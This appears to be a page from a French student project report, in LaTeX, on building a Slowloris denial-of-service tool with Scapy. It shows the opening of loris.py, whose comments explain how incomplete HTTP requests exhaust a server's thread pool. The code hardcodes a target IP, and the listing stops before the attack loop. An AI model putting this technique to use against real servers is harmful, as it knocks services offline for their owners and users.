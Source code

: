 \documentclass{article}
\begin{document}
Le développement reste sur le lien GitHub
\href{https://github.com/AlessandroMontaldo/slowLorisAttack}{https://github.com/AlessandroMontaldo/slowLorisAttack}
où le dernier commit (à 14/Janvier/2019) montre en termes généraux la structure que l'on vise. 
\textit{request\_http.py} est devenu une fonction, qui on appelle dans le \textit{main} de
\textit{loris.py}, notre fonction qui exécutera l'attaque et traitera des structures de données
impliquées.

\begin{lstlisting}
#!/usr/bin/env python

# Imports
from scapy.all import *
from request_http import *
import time
import random

# TITLE: loris.py
# AUTHORS: Matheus Augusto da Silva; Alessandro Montaldo
# This block will call over the function in request_http which we defined earlier
# and also have a few variables and lists containing data pertaining to each
# individual connection

# Since Scapy goes a little bit more lower-level than the regular sockets library
# for python ( we are managing TCP connections without a logical layer of abstraction )
# some data structures should be set in place such that TCP rules are followed:
# - Sequence and Acknowledgment numbers should be watched closely
# - We probably can't check the current TCP connection's livelihood without sending another packet,
#   so we'll take a more practical approach and periodically refresh connections.
# - Connections will be refreshed by sending a random integer in the HTTP Header
# - GET Requests are incomplete (we need to send two end-of-line characters to finish
#   a request) , only one of the end-of-line characters will be sent
# - If requests are sent unfinished, the server may assume we have a slow Internet
#   connection or a problem has happened; it will trigger a timer and wait a bit before
#   killing the socket (as far as we saw, this can take up to two minutes)
# - If we keep opening a big number of connections (around 150) the thread pool in the server
#   side may be exhausted, effectively DoS'ing the HTTP service

def main():
    ip_address = "35.204.165.14"
    #ip_address = "asdkappadue.it"
    port = random.randint(1024,6000) # 4213 
    ip = IP(dst=ip_address)
    server_port=80
    list_size = 150
    port_list = list(range(port, port + list_size))

    seqAckList = []
    seqNumList = []

    # The data structures are bound to be changed somewhat in the final version
    for _ in range(list_size):
        seqNumList.append(1) #init of seq numb
        seqAckList.append(1) #init of ack numb


\end{lstlisting}
\end{document}
